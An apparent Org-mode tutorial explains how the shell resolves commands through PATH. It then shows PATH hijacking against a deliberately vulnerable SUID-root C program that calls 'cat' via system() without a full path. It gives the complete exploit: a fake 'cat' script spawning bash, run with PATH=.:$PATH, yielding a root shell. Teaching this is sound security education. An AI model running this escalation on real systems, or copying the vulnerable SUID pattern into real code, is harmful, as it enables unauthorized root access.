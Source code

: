 #+TITLE: PATH Hijacking
#+AUTHOR: Leonardo Tamiano

* What is the PATH?
  When you launch a program, for example in the shell, you typically
  just write the name of the program. For example, if I want to list
  out all the files in a given directory, I can use the *ls* program as
  follows

  #+begin_src sh
$ ls
content  public  thumbnail  video
  #+end_src

  Now, how does the shell process know which command to execute?
  Remember that in modern operating systems, resources are located in
  specific paths of a file system. All sorts of resources are located
  like that. Even binaries, which are the programs we use to do
  various activities.

  This means that before executing the command, the shell needs to
  resolve its full path, that is, it needs to know where does the
  program reside within the file system. This is where the concept of
  a PATH comes in.

  *IMPORTANT*: The PATH is an environment variable, found within the
  shell and other processes as well, which determines the folders to
  look in order to resolve command names into full paths.

  In order to print the value of the PATH, within the shell ~bash~ we
  can execute the following command

  #+begin_src sh
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/opt/cuda/bin:/opt/cuda/nsight_compute:/opt/cuda/nsight_systems/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/usr/lib/rustup/bin:/home/leo/utils/:/home/leo/go/bin/
  #+end_src

  Notice here that ~echo~ is the command used to print stuff to the
  console, and ~$PATH~ is the name of the environment variable which
  contains the PATH.

  As you can see, the PATH is actually a list of directory paths,
  separated with colons. If we were to list out the paths in the
  previous output we'd obtain the following list

  #+begin_example
/usr/local/sbin
/usr/local/bin
/usr/bin
/opt/cuda/bin
/opt/cuda/nsight_compute
/opt/cuda/nsight_systems/bin
/usr/lib/jvm/default/bin
/usr/bin/site_perl
/usr/bin/vendor_perl
/usr/bin/core_perl
/usr/lib/rustup/bin
/home/leo/utils/
/home/leo/go/bin/
  #+end_example

  Now, how is PATH used? Simple, when you launch a program without a
  full path, such as when we just executed the command *ls*, the shell
  will use this list of folders in order to look for the ls binary. It
  will start from the first folder, and, until it has found an ls
  binary, it will keep looking for further folders, until all of them
  have been checked.

  In the case of *ls*, it will do the following

  1. First it checks if in the folder ~/usr/local/sbin~ there is the
     binary ~ls~, that is, it checks for the existence of the file

     #+begin_example
/usr/local/sbin/ls
     #+end_example

     Since there is no such file in our current file system, it keeps
     going and checks for the next directory.

  2. The second directory is ~/usr/local/bin~, and so the shell checks
     for the existence of the file

     #+begin_example
 /usr/local/bin/ls
     #+end_example

     Since there is no such file in our current file system, it keeps
     going and checks for the next directory.

  3. The third directory is ~/usr/bin~, and so the shell checks for the
     existence of the file

     #+begin_example
/usr/bin/ls
     #+end_example

     Since there is such file in our current file system, it loads the
     file in memory and it executes it.

  Indeed, notice that if we execute ~ls~ or we execute ~/usr/bin/ls~ with
  its ful path, we get the same output

  #+begin_src sh
$ ls
content  public  thumbnail  video

$ /usr/bin/ls
content  public  thumbnail  video
  #+end_src

  To understand how a given command is resolved, we can use the binary
  ~which~. This binary uses the PATH in exactly the same we just
  described in order to print out the full path of the command.

  #+begin_src sh
$ which ls
/usr/bin/ls
  #+end_src

* PATH Hijacking
  Having described what is the PATH, we can know understand the
  dynamics of the *PATH Hijacking* attack.

  Let's say we have the following C program. 

  ~reader.c~
  
  #+begin_src c
// gcc reader.c -o reader

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

char *VALID_FILES[] = { "01.txt", "02.txt" };
int valid_files_count = 2;

int main(int argc, char **argv) {

  if (argc < 2) {
    fprintf(stderr, "[INFO]: Usage %s <filename>\n");
    return -1;
  }

  char *user_filename = argv[1];

  for (int i = 0; i < valid_files_count; i++) {
    char *valid_filename = VALID_FILES[i];
    int length = strlen(valid_filename);

    if (!strncmp(user_filename, valid_filename, length)) {
      char cmd[42] = {0};
      sprintf(cmd, "cat ./archive/%s", user_filename);
      setuid(0);
      setgid(0);
      system(cmd);
      return 0;
    }
  }

  printf("[INFO]: No file with such names were found.\n");
  
  return 0;
}
  #+end_src
  
  We can compile the program and make it a SUID binary owned by the
  ~root~ user as follows

  #+begin_example
gcc reader.c -o reader && sudo chown root reader && sudo chmod +s reader
  #+end_example

  As we can see, the program is used to read some files within an
  archive directory, where archive contains a bunch of files which can
  only be access by root, or by the program itself in read only mode.

  #+begin_src sh
$ sudo tree -L 2
.
├── archive
│   ├── 01.txt
│   ├── 02.txt
│   └── 03.txt
├── notes.org
├── reader
└── reader.c
  #+end_src

  --------------

  The program just shown is vulnerable to PATH hijacking. Notice how
  the program makes use of the ~cat~ binary in order to print out the
  contents of the file. Specifically, notice how cat is called: no
  full path is given, therefore the path that used to find the binary
  will be computed at runtime using the PATH environment variable. And
  this is why the program is vulnerable and can be exploited.

  Before calling the binary, an attacker can set a specific
  environment PATH, and the vulnerable program will use that to find
  the cat binary. An attacker can then create a malicious binary or
  script called ~cat~ and place it within the first folder of the
  path. When the program will execute, it will find the attacker's
  malicious code, and not the original cat.

  In the example shown above, the attacker can do the following

  1. Create a malicous bash script and call it ~cat~ within the current folder

     #+begin_example
echo -en '#!/usr/bin/env sh\n/bin/bash\n' > cat
chmod +x cat
     #+end_example

  2. Launch the program with a malicious PATH variable

     #+begin_example
PATH=.:$PATH ./reader 01.txt
     #+end_example

  3. Enjoy the profit

     #+begin_example
$ PATH=.:$PATH ./reader 01.txt
# whoami
root
     #+end_example

